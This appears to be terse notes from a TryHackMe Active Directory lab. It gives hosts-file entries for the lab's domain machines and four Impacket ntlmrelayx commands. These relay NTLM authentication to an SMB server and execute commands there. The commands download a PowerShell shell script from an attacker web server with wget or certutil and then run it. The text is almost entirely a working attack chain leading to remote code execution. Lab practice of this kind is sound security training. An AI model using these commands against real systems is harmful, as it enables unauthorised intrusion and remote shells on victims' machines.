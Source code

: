 
/etc/hosts

```
10.200.129.101 THMCHILDDC.za.tryhackme.loc
10.200.129.201 THMSERVER1.za.tryhackme.loc
10.200.129.202 THMSERVER2.za.tryhackme.loc
10.200.129.201 distributor.za.tryhackme.loc
10.200.129.248 THMWRK1.za.tryhackme.loc
10.200.129.100 THMROOTDC.za.tryhackme.loc
```


python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -c 'wget http://10.50.57.120:8000/shell.ps1 -o shell.ps1' -debug


python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -c 'certutil.exe -urlcache -split -f http://10.50.57.120:8000/shell.ps1 C:\Temp\badshell.ps1' -debug

python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -c 'powershell C:\Temp\badshell.ps1' -debug

python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -c 'powershell shell.ps1' -debug

